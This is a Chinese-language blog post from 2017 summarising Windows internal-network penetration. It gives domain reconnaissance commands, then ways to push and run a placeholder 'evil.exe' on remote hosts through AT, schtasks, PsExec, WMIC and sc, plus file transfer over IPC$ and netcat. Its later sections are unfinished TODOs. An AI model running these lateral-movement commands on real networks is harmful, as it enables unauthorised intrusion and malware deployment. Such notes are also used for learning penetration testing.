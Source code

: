 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "实体机多系统新姿势"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网
---
```


# 0x00 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x01 信息收集

```
net view /domain [:XXX]
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x02 域内

## 域内运行命令

1. 计划任务

    1) AT
        
        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe  # 上传恶意文件
        at \\[HOST] 15:00 c:\windows\temp\evil.exe

    2) SCHTASKS

        schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s [HOST] /ru system
        schtasks /run /tn boom /s [HOST]
        schtasks /delete /tn boom /f /s [HOST]  # 清除 boom

2. PsExec

    1) 建立 IPC$ 连接后

        psexec \\[HOST] -c evil.exe

    2) 在 PsExec 的参数中指定账号密码

        psexec.exe \\[HOST] –accepteula -u [USERNAME] -p [PASSWORD] -c evil.exe

3. WMIC 远程运行命令

        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe
        wmic /node:[HOST] /user:administrator /p [PASSWORD] process call create c:\windows\temp\evil.exe

4. SC 创建服务执行

    1) 系统权限(其中test为服务名)

        sc \\[HOST] create boom binpath= c:\evil.exe
        sc \\[HOST] start boom
        sc \\[HOST] delete boom

    2) 指定用户权限启动

        sc \\[HOST] create boom binpath= c:\evil.exe obj= [DOMAIN]\administrator passwrod= [PASSWORD]
        sc \\[HOST] start boom

## 域内的文件操作

1. 利用 IPC$

        net use \\[HOST]\IPC$
        copy evil.exe \\[HOST]\C$\

2. 利用 Telnet

    服务端：

        nc -lvp 23 < nc.exe

    下载端：

        telnet [HOST] -f c:\nc.exe

3. 利用文件共享

        net use x: \\[HOST]\[SHARE] [PASSWORD] /user:[DOMAIN]\[USERNAME]

# 0x03 拿下域控

// TODO

# 0x04 Hash dump

// TODO

# 0x05 权限维持

// TODO

---

> 参考资料：  
> [域渗透基础简单信息收集（基础篇）](https://xianzhi.aliyun.com/forum/read/805.html)  
> [windows内网渗透杂谈](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)

